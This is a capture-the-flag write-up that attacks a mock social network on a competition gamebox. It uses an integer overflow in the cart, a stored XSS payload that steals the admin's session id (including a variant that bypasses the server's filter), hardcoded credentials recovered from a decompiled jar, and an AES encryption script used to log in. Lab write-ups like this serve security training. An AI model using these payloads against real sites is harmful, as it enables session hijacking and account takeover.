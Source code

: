 This is a social media application in which we can buy subscriptions. The problem only 20€ in credits are available and the sub costs 30. 
Looking around there is an underflow on the cart  -2,147,483,648 to 2,147,483,647 that is a integer of 4 bytes, some quick maths shows that at aprice per unit of 39 we need 55063684 units to go negative and then add another 55063684 to be positive again but below 20€


![Pasted image 20221016161722](https://user-images.githubusercontent.com/32242199/196743511-77864f0b-3cb6-42ca-9531-c5836be37496.png)


We are premium now and with the cool sub we have some new followers like BigFish the problem with this user is that he refused to go to our links so it wont help much as this user cant visit links, 

The Idea is to leverage the xss on the profile page to grab the session id that is sitting on the bottom of the visits page:

``<imimgg src=x onerror=alert(1) />``

![Pasted image 20221016203101](https://user-images.githubusercontent.com/32242199/196744470-5c216f0c-fac8-4bf2-a82a-54d8b4e9b3e6.png)

After checking my followers I found a new follower follow it back and liked his post so now  I can chat with him. He will love to visit my xss:

![Pasted image 20221016203040](https://user-images.githubusercontent.com/32242199/196744698-74dd259a-d8ad-4a23-ab4d-8a26fe9a4c0a.png)

This is going to be the payload to steal the sessid 

```js
a=new XMLHttpRequest();
a.open("GET",'/eab7d078f560ffad719388fde466d912980d6024/visits',!1);
a.send('');
x=a.responseText;
s=x.match(/id=\"sessid\">.{32}/g)
a.open("GET",'/eab7d078f560ffad719388fde466d912980d6024/profile/abtsecabt'+s,!1);
a.send('')
```

The server is removing some strings after trial and error 

```js
<scscriptript>a=new XMLHttppReRequest();a.open("GET",'/eab7d078f560ffad719388fde466d912980d6024/visits',!1);a.send('');x=a.responsseTeText;s=x.match(/id=\"sessid\">.{32}/g);a.open("GET",'/eab7d078f560ffad719388fde466d912980d6024/profile/abtsecabt?'+s,!1);a.send('')</scscriptript>
```


So After testing it against my self I got the payload right and its time to send it to the victim
![Pasted image 20221019150659](https://user-images.githubusercontent.com/32242199/196745183-3e49e658-c253-4982-97cd-7dc31f741395.png)

And now we have his session id ``vnkyk87birxbiqs78excd1o23tf8w9gy``
![Pasted image 20221019150803](https://user-images.githubusercontent.com/32242199/196745253-0b962d00-c584-4d0c-8557-d89477bdfd0d.png)


Now we are admins! Most of the features are now disabled but on saved messages there is an interesting link:
![Pasted image 20221019150953](https://user-images.githubusercontent.com/32242199/196745449-8a7785fe-a5a4-444a-a6a3-827af507e023.png)

http://gamebox3.reply.it/eab7d078f560ffad719388fde466d912980d6024/static/5c6039c8bb7fc4b8bb2f23c12939742c/ofish-administration.jnlp 

The link points to a jnlp file that contains a jar so lets use jd-gui to see whats inside,  the code is pretty much a class login acting as a  loggin wrapper on a hidden endpoint of the app:
```java
public String performLogin(String paramString1, String paramString2) {
    try {
      URL uRL = new URL("http://gamebox3.reply.it/eab7d078f560ffad719388fde466d912980d6024/login");
      HttpURLConnection httpURLConnection = (HttpURLConnection)uRL.openConnection();
      httpURLConnection.setRequestMethod("POST");
      httpURLConnection.setDoOutput(true);
      httpURLConnection.setRequestProperty("Authorization", "Basic ZmlzaDpQclJncW9WUSVRNnptakF4WFRqOwo=");
      httpURLConnection.setRequestProperty("Content-Type", "application/json");
      httpURLConnection.setRequestProperty("Accept", "application/json");
      String str1 = "{\"username\": \"" + paramString1 + "\", \"password\": \"" + paramString2 + "\"}";
      try (OutputStream null = httpURLConnection.getOutputStream()) {
        byte[] arrayOfByte = str1.getBytes("utf-8");
        outputStream.write(arrayOfByte, 0, arrayOfByte.length);
      } catch (Exception exception) {
        exception.printStackTrace();
        return "Fail";
      } 
```
Then we have a function to encrypt passwords with the key and the salt on it:

```java
  public static String encrypt(String paramString1, String paramString2) throws Exception {
    byte[] arrayOfByte1 = getRandomIv();
    String str = "ThisIsTheSuperSecretKey";
    SecretKey secretKey = getSecretKey(str, paramString1);
    Cipher cipher = initCipher(1, secretKey, arrayOfByte1);
    byte[] arrayOfByte2 = cipher.doFinal(paramString2.getBytes());
    byte[] arrayOfByte3 = ByteBuffer.allocate(arrayOfByte1.length + arrayOfByte2.length).put(arrayOfByte1).put(arrayOfByte2).array();
    return Base64.getEncoder().encodeToString(arrayOfByte3);
```

We can also notice the autorization bearer ``Basic ZmlzaDpQclJncW9WUSVRNnptakF4WFRqOwo=``
That reveal the ``fish:PrRgqoVQ%Q6zmjAxXTj;`` so we will start by trying with those creds using a python script to encrypt with the same key and salt
```python
import base64
import hashlib

from Cryptodome.Cipher import AES  # from pycryptodomex
from Cryptodome.Random import get_random_bytes

HASH_NAME = "SHA256"
IV_LENGTH = 16
ITERATION_COUNT = 65536
KEY_LENGTH = 32


def pad(s): return s + (IV_LENGTH - len(s) % IV_LENGTH) * chr(IV_LENGTH - len(s) % IV_LENGTH)


def unpad(s): return s[0:-ord(s[-1:])]


def get_secret_key(password, salt):
    return hashlib.pbkdf2_hmac(HASH_NAME, password.encode(), salt.encode(), ITERATION_COUNT, KEY_LENGTH)


def encrypt(password, salt, message):
    secret = get_secret_key(password, salt)
    message = pad(message)
    iv = get_random_bytes(IV_LENGTH)
    cipher = AES.new(secret, AES.MODE_CBC, iv)
    cipher_bytes = base64.b64encode(iv + cipher.encrypt(message.encode("utf8")))
    return bytes.decode(cipher_bytes)


def decrypt(password, salt, cipher_text):
    secret = get_secret_key(password, salt)
    decoded = base64.b64decode(cipher_text)
    iv = decoded[:AES.block_size]
    cipher = AES.new(secret, AES.MODE_CBC, iv)
    original_bytes = unpad(cipher.decrypt(decoded[IV_LENGTH:]))
    return bytes.decode(original_bytes)


f_salt = "aPinchOfSalt"
secret_key = "ThisIsTheSuperSecretKey"
plain_text = "PrRgqoVQ%Q6zmjAxXTj"

cipherText = encrypt(secret_key, f_salt, plain_text)
print("CipherText: " + cipherText)

decryptedMessage = decrypt(secret_key, f_salt, cipherText)
print("PlainText: " + decryptedMessage)
```

Running it we had:
```
CipherText: JaarSP87i5SR+DU+4Ho6p8l/za1Q9G1n3da2WvN7j62kc9dNbEuUjiDHM2GTkgMJ
PlainText: PrRgqoVQ%Q6zmjAxXTj
```

If we build a request like the one in the java code we got this:
![Pasted image 20221019174856](https://user-images.githubusercontent.com/32242199/196745999-794e3128-ea7e-4fcb-9cc7-7b89ea9277df.png)


``Admin:OfishIsTheBestSOCIALnEtWoRk1@``
Lets encrypt that pass and try again
```
CipherText: t+BshbebV9p3IbgQFD4aeh193fWh/V2jkcMu90AinkRC/DZe16Pzyqh4oh1tk8zl
PlainText: OfishIsTheBestSOCIALnEtWoRk1@

```

And now we have the right credentials and the flag
![Pasted image 20221019175150](https://user-images.githubusercontent.com/32242199/196746079-8f08c4fd-257c-411c-883f-cc0a3bd38c21.png)

